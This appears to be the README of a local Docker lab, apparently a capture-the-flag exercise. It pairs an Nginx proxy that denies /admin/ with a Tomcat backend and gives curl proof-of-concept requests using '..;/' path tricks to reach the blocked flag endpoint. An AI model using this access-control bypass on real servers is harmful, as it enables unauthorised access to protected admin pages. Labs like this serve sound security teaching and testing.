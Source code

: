 ### Nginx + Tomcat

Try to access http://backend:8080/admin/flag


### Usage
Build and run
```
docker-compose up
```

Go http://127.0.0.1:8081/


### Hint
Nginx default.conf
```
location / {
    proxy_pass	http://backend:8080/;
}

location ^~ /admin/ {
    deny all;
    return 403;
}
```

### POC
``` bash
curl --path-as-is 'http://127.0.0.1:8081/..;/admin/flag'
curl --path-as-is 'http://127.0.0.1:8081/..;/console;/flag'
```